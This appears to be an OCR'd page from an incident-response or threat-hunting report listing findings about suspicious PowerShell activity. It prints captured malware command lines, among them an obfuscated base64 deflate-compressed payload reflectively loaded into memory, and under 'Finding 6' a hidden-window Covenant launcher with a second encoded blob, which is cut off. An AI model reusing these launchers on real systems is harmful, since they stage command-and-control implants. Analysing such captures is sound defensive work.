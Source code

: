 ```
fANwJnU5oGrQRHYXrOAJKgooDz+JzI53H7DukFNc
yvBMILQ3+dsxj+1ulhwl43wo7nQjPgAcDvCjwCWC
d0jd37lb4b5PF4ji3gxKeANbR2EW8i1NwvZsCFHb
fzGXFeBF3QZpFMFkZ7m40xVK7PoxaLSTFVE5uD56
3C6tVaKHQ73VLet6FuSZ4s9eIJwN+sb9pUDZGTth
A2cKgFiLIykI3S3+ZJW3yeXZ1DhMoZAfOsbC7NMV
xF0bo5JGvKy2blDXihaQKZ/nishF2YCm4DcizlYS
go93ouCPo2AOo5Qj6bhjb2EDcRzH3ACycxqbmg2I
IXXkG+6kNcBYLPIXeHsU2bYXXnZhnwP8+HEtjkJ6
Vnfql8wh6HZjj2OW9wK7Hx0ljHbbEOqmawUSWnIe
hOyR3CBzuxrx+27z+ANzkue3z3D6UOobg2ZZT5CG
3e6MI0pif0TE/ox8aXTgs8pJOKbkDb/K0EK3oQVl
NlCHBxfPcgE8TuOfnM2G9VnzaiHzHMZ88+Pg4W/I
5VvDxO5lSTYRuok2IxILNHGJsAdVMjbSZhN/JerF
Oa5FO25I6bUU67UvqtBfpdCyp01Gk07mkTueCzor
CTGhFYcyFVFsR1V5EdRRRaMWT76358zdKB2/+kL3
jyG1vlGwhb1gIzRMm4QOi64f9TaHyilCdCF4FgsF
QfTBY5wuGGkKbQ1vrfPwGczkkQYcKNUieK9JbK/R
OzNPwCu1Uw6IuWOdZWSoEm1tDFaEcoCcggmpFyFC
CQV9YEbXVVaWKIkXCUWDZGlojvAGo8G+EUINDLwk
lyL+ztCJ0ydM0Hwm49fIf2aicy9zdznAPZ1bn88O
+Fpq7zweFuY8i7aACAWb4wmB8Sgt7OGxN40iB+Ej
6CROjAkmpzKirVYltPsxDaO5Rrp4iLT7OzjBIa49
L1lMO66s+WUAtTFyQMvLJusAy0DBoBK4o7EoIJ5Z
LXApkGyYNTI2BpBQZUy0mBWU6HKbj/IXl5IOnlzX
+aH4C/gNEjOBDcz90hh+rYaW2tq5W6r+tkofXrcS
vhG6U0aGgMgQFIYjQjU4gv0ECobl3mIU4YUCEhoJ
evwiNs+BgaIgFoQGPXyjaE+eOH1rV8frdHjU0oKi
KogaBVfvzi4ty1fH6iRJS3H5CBUIDgbBXqQ0dDd2
mR70R0Jpw/wRyDf/uMKZUHsYVeNhMzz+Kjk1b5ll
baML9+cjr/Hr0TMEfSr6Y/7vPJV7PFf5BJeHqjyc
WQz5Gy/8xM4zmeDIpZVcaKLxnaSP/1197nN8c/3X
HHzqQ/3/9IV7/DQ=='),[IO.Compression.Comp
ressionMode]::Decompress));sv b (New-Obj
ect Byte[](1024));sv r (gv d).Value.Read
((gv b).Value,0,1024);while((gv r).Value
-gt 0){(gv o).Value.Write((gv b).Value,
0,(gv r).Value);sv r (gv d).Value.Read((
gv b).Value,0,1024);}[Reflection.Assembl
y]::Load((gv o).Value.ToArray()).EntryPo
int.Invoke(0,@(,[string[]]@()))|Out-Null
"
```

---

**Finding 6:** Suspicious Shells Spawn by WinRM, Covenant Launcher Indicators, Base64 Encoded Powershell Malware (note: File date is out of scope - but should still be investigated)
```
2022-02-12 21:51:08

"C:\Windows\System32\WindowsPowerShell\v
1.0\powershell.exe" -Sta -Nop -Window
Hidden -Command "sv o (New-Object IO.Memor
yStream);sv d (New-Object IO.Compression
.DeflateStream([IO.MemoryStream][Convert
]::FromBase64String('7Vp7cFzVef/O3d27V2t
7rbt62pbs9UP2WpaFXpZtsI31siUjyQ9JfuHU3se
VtHh37/reXVvCNRWFMoWEBJiSV0N5JDOBSciUJDN
AAjO4oQlNCAOdDoUWKGkeU0hmCm06eUxi9/ede1f
atWRS+k8m0+56v/O9zvc63zl7rldDx+8hDxF58bl
8megpcl676Xe/ZvAJrvpGkL5e9v3VT4nB768enUz
a4axlTljRdDgezWTMXDhmhK18JpzMhHv3j4TTZsJ
oXrIksM61caCPaFAo9NxaLVaw+zatoUWihagRhOL
```